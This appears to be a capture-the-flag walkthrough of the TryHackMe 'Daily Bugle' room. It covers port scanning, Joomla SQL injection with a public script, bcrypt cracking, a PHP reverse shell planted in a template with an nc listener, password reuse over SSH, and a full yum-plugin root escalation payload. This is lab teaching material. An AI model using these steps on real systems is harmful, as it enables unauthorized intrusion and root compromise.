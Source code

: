 You can access the room from https://tryhackme.com/room/dailybugle
Let’s Start the Machine…
Before getting into the box if you are not using AttackBox make sure you are properly connected to openvpn server and give 2 minutes for the target machine to configure.
Initial Enumeration
Lets start by enumerating the box by port scanning using nmap. Use the following command
                >   sudo nmap -sV <machine_ip>
The port scanning went well and we have 3 open ports

nmap Scan Report
Port 22 - Its an SSH port and its not gonna give us anything to start.
Port 80 - A Web server is running and it might help us to get more information. So lets go check the website.
Port 3306 - Its a default port used for the MySQL protocol and the database system is MariaDB.
Looking at the website and we got the answer for the first question !!!

Website Home Page
So looking around the website nothing seems informative.So lets run a gobuster in the website.
 > gobuster dir -u <machine_ip> -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt

Gobuster Directory List
So there is a directory for admin(Administrator) and let’s go and check that directory before that we want to check the /robots.txt
From the /robots.txt we get to know that this site is running Joomla CMS, and since the second question is about it’s version. Let’s use CMS scanning tools. There are several tools to enumerate a CMS and am using CMSeeK
Use CMSeeK with the following command to enumerate the website.
   >   sudo python3 <path-to-cmseek.py> -u http://<machine-ip>

CMSeeK CMS Details
Now we got the version of Joomla. Answer the second question and lets check the Administrator directory.

Joomla Administrator Login Page
Hooray we found a Joomla login page. But we only got a user name “jonah” mentioned in the box. So lets go and check for any vulnerabilities in Joomla <version>
SQL Injection
Box itself mentioned about a user named Jonah and they prefer not to use SQLMap. So lets look for a python script to enumerate the SQL database.
After a little research we found a python script called Joomblah from github.
Download the code from Github and run the python script as follows.
      >  sudo python <path-to-joomblah.py> http://<machine-ip>

SQL Injection Result
So now we got a username ‘Jonah’ and a hashed password of the user Jonah.
Hash Identification and Cracking
We got a hash and we need to crack it. Before that we need to identify the type of hashing algorithm used. So lets identify the hash using hashid command.
              >    hashid <'hashed password'>

Its a bcrypt hash
The next step is to decrypt the hash. For that we are using hashcat and an alternate option is johntheripper.
I just saved the hash in a file named hash and we are using a wordlist rockyou.txt which is a set of compromised passwords from the social media application developer and contains 14 million passwords.
    >  hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt

Cracked Password
-m flag is used to mention the hash-type
Alternate way to crack a hash is johntheripper and it can be used as below
     john -wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Now we got a Username ‘jonah’ and a Password so lets go and use them on the joomls login page.

Great we got logged in to the CMS management screen

After some scoop found a possible way to upload a reverse shell in the Templates. Get into templates
PHP Reverse Shell

Extensions -> Templates -> Templates
There are two templates . I chose the second one ‘Protostar Details and Files’

Select Protostar Details and Files
Select the New File from the top panel and give a name and php as file type . then Hit Create.

We will get a notepad to write our script , let’s use it for getting a reverse shell
I am gonna use PHP Reverse Shell by Pentestmonkey from Github . Copy and paste the script and correct the listening machine ip and port number(here i’m using 1234)

Click the Save & Close and we are ready to run the reverse shell.
Let our machine listen to the port using the netcat listener command.
                  >  nc -lvnp <Port-Selected>
Same time we must run the browser with the following url or use tool curl followed by the url in shell itself.
       http://<machine-ip>/templates/protostar/<filename>.php


User Named as ‘jjameson’
Checking the home directory there is a user with the name ‘jjameson’ but we don't have password to get into it.
So after checking around for some information to exploit the machine found a configuration.php file in the webserver directory /var/www/html

configuration.php
From nmap we know that port 22 is open which is used for SSH, so lets ssh into the machine as “jjameson”
               >  ssh jjameson@<machine-ip>
We will be prompted for the password and give the password we found from config file.

SSH
Now we logged in as jjameson and we got our first flag user.txt . For the root.txt flag we need to do privilege escalation.
Privilege Escalation
Lets check our existing sudo privileged command list by running the sudo -l

  > sudo -l Output
That’s it , we found a command that can run as sudo without password.
There is a privilege escalation using yum in gtfobins
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

 > cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

> cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
Just copy and paste the code to jjameson shell .

yum privilege escalation
We got the root shell. Go and grab the root.txt flag from /root/root.txt

Root Flag
